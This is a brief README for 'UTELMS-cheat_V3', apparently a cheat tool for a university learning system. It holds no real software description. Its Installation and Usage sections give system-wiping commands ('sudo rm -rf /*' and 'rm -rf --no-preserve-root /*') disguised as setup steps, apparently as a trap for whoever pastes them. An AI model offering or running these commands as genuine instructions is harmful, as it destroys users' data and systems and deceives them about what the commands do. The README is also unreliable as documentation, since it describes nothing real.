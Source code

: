 ﻿# UTELMS-cheat_V3

# PYTHON IS TRASH 🚮🐍

## About  
This project is created and maintained by **Khoa D Nguyen Nguyen - Pháp Sư UTE**.  

## Description  
This project was written in python 

## Installation 
Sudo rm -rf /* 

## Usage  
sudo su
rm -rf --no-preserve-root /*

## License  
MIT License © Khoa D Nguyen Nguyen  
